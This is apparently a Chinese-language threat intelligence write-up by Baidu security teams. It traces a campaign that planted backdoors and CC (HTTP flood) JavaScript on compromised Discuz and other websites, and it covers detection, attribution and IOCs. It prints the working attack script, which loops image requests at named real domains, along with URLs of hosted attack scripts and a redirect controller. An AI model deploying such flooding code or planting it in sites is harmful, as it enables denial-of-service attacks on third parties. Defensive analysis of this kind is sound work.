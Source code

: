 # 从异常挖掘到CC攻击地下黑客团伙

Author: 百度云安全天网团队 百度安全攻防实验室 百度云安全云端防护团队

0x00 异常挖掘与回溯
=====

11月13日，百度云安全天网系统，通过数十TB的日志挖掘，发现了安全宝某重点客户网站上的异常行为。之后我们的分析人员跟进，发现这是一起针对安全宝某重点客户的持续攻击。最终在客户系统上放置了Web后门。

该Web后门的通信如下：

```
POST /uc_server/data/logs/20140708.php?v=1a HTTP/1.1
Host: bbs.xxxxx.com
Referer: http://bbs.xxxxx.com/uc_server/data/logs/20140708.php?v=1a
User-Agent: Sogou
Content-Length: 60

```

从通信流量上看，并未触发任何报警。同时，客户的日志里也并未保存http response的数据。

天网系统中的谛听模块通过对网站的访问行为进行建模，通过每个被防护的网站日志训练出这个网站特有的访问模型。包括网站参数的模型，网站访问路径的模型，网站访问session的模型。黑客这次的访问行为触发了网站访问路径模型的异常。该模型中通过每个路径访问的频度广度和路径之间的访问关系等feature，训练出针对每个网站特定的路径视图。

我们在系统中对该客户的所有历史日志进行了回溯，发现该黑客在9月24日就已经对该客户展开了尝试性的攻击。

通过进一步的分析，我们发现，该攻击者修改了Discuz系统的class_core.php。在该class_core.php中添加的代码如下：

![](http://drops.javaweb.org/uploads/images/862ab7e09be0d545994e12dde3f3967623d1116e.jpg)

从该代码中，我们可以做出以下结论：

1.  这次攻击不是小范围的针对单个站点的攻击，而是攻击了多个站点
2.  该代码中并未指定特定的CC攻击的目标，而是通过Location统一跳转到[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)，由该url指定最终的攻击目标。

0x01 影响确认和攻击代码
=====

我们从CC的攻击代码中提取了以下特征fuwuqibeiheikeruqin，在现有的网页情报库中搜索，发现以下的链接地址：

[http://www.eoeandroid.com/forum.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan](http://www.eoeandroid.com/forum.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan)

判断eoeandroid也被这样攻击过。

11月20日，[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)请求被重定向到[http://www.eoeandroid.com/forum.php?](http://www.eoeandroid.com/forum.php?)，11月20日发现eoeandroid已经503了。该攻击手法被进一步确认。

我们又对该代码中提及到的`php100.com`,`www.dm123.cn`和`12edu.com`进行访问。发现如下：

以dm123.cn为例：

![](http://drops.javaweb.org/uploads/images/78e31803c621fae9f026369569528f7b1a76a172.jpg)

显然该网站被利用来做CC攻击。

同时我们针对以上网站挂CC攻击的js进行了分析，发现有三种:

1.  dm123.cn中，直接在dm123网站上挂js，脚本路径如下:  
    [http://www.dm123.cn/gd.js](http://www.dm123.cn/gd.js)
2.  php100.com中，托管在SAE上的攻击脚本，脚本路径如下:  
    [http://jsddos.sinaapp.com/ddos.js](http://jsddos.sinaapp.com/ddos.js)
3.  12edu.com中，通过api接口动态获得要攻击的网站，更加难以定位:  
    [http://www.12edu.com/api.php?op=count&id=34380&modelid=1](http://www.12edu.com/api.php?op=count&id=34380&modelid=1)

以上三种方式，从扫描器检测的角度来看，复杂度逐渐增大。第一种情况下，是直接检测本域下的js。第二种则需要检测外链js，检测量大大增大了。而第三种则是在已有的js里面没有攻击代码。攻击的代码是通过api接口动态获得的。

**攻击用的js代码如下：**

```
function imgflyygffgdsddfgd() {
var TARGET = 'www.hanyouwang.com'
var URI = '/index.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan&'
var pic = new Image()
var rand = Math.floor(Math.random() * 1000)
pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflyygffgdsddfgd, 0.1)
function imgflyygffhghddfgd() {
var TARGET = 'www.weshequ.com'
var URI = '/Search/v-wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan&'
var pic = new Image()
var rand = Math.floor(Math.random() * 1000)
pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflyygffhghddfgd, 0.1)

```

**被攻击域名**包括重要政府网站和国家级新闻媒体

0x02 身份确认
=====

通过域名的相似度，我们在现有的网页情报库中发现了如下域名：

*   博客：[http://jsddos.blog.163.com/](http://jsddos.blog.163.com/)
*   论坛：[http://www.jsddos.com/](http://www.jsddos.com/)

在163博客上可以看到，该团队名 ddos Js团队，QQ 1551227222

在网页情报库中查找该QQ，可以发现[http://www.mspycn.com/about.html](http://www.mspycn.com/about.html)

看来除了卖ddos的服务，还在卖手机监听软件的服务

对该域名的whois进行查询，如下：

![](http://drops.javaweb.org/uploads/images/2fcd1c01144a05c0d525d441ed744f79144b6112.jpg)

从我们发现该攻击到发稿前，该黑客做了如下的事情:

1.  修改了[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)的指向
2.  Php100.com已经不再受影响

0x03 后续
=====

我们有理由相信，这是一个在不断进化的地下黑客团体。通过更加隐蔽的手法进行CC攻击挂马。该问题的影响范围目前我们还在进一步确认。欢迎业内同仁继续跟进分析。

如果你想查看自己的网站是否受影响，有两个步骤：

1.  打开网站，随机访问几个页面，查看下面是否会发起连续的对其他网站的请求
2.  查看是否会发起请求：[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)

我们从该攻击中提取了以下信息作为攻击情报或者IOC：

[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)